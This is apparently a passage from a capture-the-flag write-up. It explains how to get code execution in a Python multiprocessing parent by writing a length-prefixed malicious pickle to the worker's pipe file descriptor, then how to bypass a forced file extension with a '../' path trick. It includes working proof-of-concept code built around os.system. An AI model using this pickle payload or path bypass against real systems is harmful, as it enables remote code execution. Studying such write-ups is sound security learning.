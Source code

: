 One important wire-format detail: `multiprocessing` **prepends a big-endian I32 length** to each pickle payload. The receiver reads that length and then waits until at least that many bytes arrive before handing the buffer to the unpickler.

If one now actually finds the pipe that is used to pass data across the process boundary - i.e., the FD the parent uses to receive picklable objects - then the worker can just write a prepared object to `proc/self/fd/<FD>` to send it straight to the parent process and get remote code execution there. Reviewing the code in more detail shows it's always the **second pipe** open in the worker - file descriptor 6 in the "undisturbed" setup. In the challenge environment, which spawns a few more pipes (including the TCP socket), it ends up being FD 13.

Coding up a quick Python demo shows: Yes, this actually works. We have our attack vector.

```python
class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,("touch /tmp/pwned",))

## encode as multiprocessing expects it
body = ForkingPickler.dumps((0, 0, (True, [PickleRCE()])))
n = len(body)
header = struct.pack("!i", n)
payload = bytearray(header + body)

# this is called for the child (stripped down from app.py)
def send_to_parent_pipe(args):
    with open(f'/proc/self/fd/6', 'wb') as f:
        f.write(payload)

# send the task over to the worker
pool = Pool(processes=1)    
pool.map(send_to_parent_pipe, [('some arg')])
```

## fd/6.jpg ?

Although we now know that writing to the FD works, we're still constrained by the forced filename extension: We obviously can’t write to .../fd/6.jpg. 

But re-reading the code reveals another, more subtile logic bug: The app treats **everything after the last dot** as the "original extension" (`orig_ext = filename.rsplit('.', 1)[1]`), but then does a **global string replace** on the whole filename (`filename.replace(orig_ext, ext, 1)`), effectively replacing only the first occurrence of that substring anywhere in the path.
That means if the "extension" substring appears twice in the path, only the first occurrence is rewritten, leaving the second (the actual target) intact.


```python
filename = "//tmp/pwned/../tmp/pwned" # last dot is in "../"
ext = "jpg"
orig_ext = filename.rsplit('.', 1)[1]
-> "/tmp/pwned"

out_name = filename.replace(orig_ext, ext, 1)
-> "/jpg/../tmp/pwned"
```
